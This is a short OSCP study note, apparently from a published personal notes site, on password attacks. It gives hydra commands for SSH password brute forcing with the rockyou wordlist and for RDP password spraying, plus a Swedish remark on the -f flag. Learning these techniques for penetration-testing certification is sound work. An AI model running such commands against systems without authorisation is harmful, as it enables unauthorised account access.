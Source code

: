 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/7. Password Attacks/1. SSH & RDP Attacks/"}
---
```


### SSH Password Brute Force:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou/rockyou.txt -s <port> ssh://<ip>
```

### RDP Password Spray:
```bash
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<password>" rdp://<ip>
```

-f = stoppar efter första hittade inloggningen
